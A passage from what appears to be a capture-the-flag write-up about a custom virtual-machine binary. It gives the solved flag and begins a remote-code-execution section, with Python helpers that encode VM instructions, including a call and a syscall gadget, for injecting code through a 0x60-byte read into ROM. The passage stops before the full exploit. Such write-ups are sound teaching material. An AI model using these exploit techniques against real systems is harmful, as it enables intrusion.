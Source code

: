 This gives us the flag `dice{st4ying_ins1de_vms_1s_0verr4ted}`

## Exploiting the flag input for remote code execution

Script: [exploit.py](exploit.py)

This is the contaminated pwn challenge which reuses this same binary, as mentioned earlier the `read()` writes to the start of the ROM, so it's possible to overwrite the code for after it returns from the parent code, in order to simplify writing this exploit I made use of pwninit to get working outside of Docker.

The `read()` only consumes `0x60` bytes, which is not really enough for us to fully exploit what we need, on top of this the location which it starts at is `0x28` so we have an option to jump around these address to try and have as much code as possible or fit it all in the `0x38` (`0x28-0x60`)

The first thing we need to start writing this exploit is some helpers to make it easier for crafting our own VM code

```py
def mov_imm(r, imm):
    return bytes((1 | (r << 4),)) + p64(imm)

def mov_reg(r1, r2):
    return bytes((2, r1 | (r2 << 4)))

def add(r1, r2):
    return bytes((3 | (0 << 4), r1 | (r2 << 4)))

def sub(r1, r2):
    return bytes((3 | (1 << 4), r1 | (r2 << 4)))
    
def mov_to_mem(r1, r2):
    return bytes((4, r1 | (r2 << 4)))

def mov_from_mem(r1, r2):
    return bytes((5, r2 | (r1 << 4)))    

def jump_imm(imm):
    return bytes((7,)) + p64(imm)

def print_reg(r):
    return bytes((10, r))
    
def halt():
    return bytes((0, ))
    
def call(in_payload, addr):
    ret = len(in_payload)+9+2+9+2+9
    payload = mov_imm(0, 8)
    payload += sub(15, 0)
    payload += mov_imm(0, ret)
    payload += mov_to_mem(15, 0)
    payload += jump_imm(addr)

    assert len(payload) + len(in_payload) == ret
    return payload

def syscall(payload):
    return call(payload, 0x2353)
```
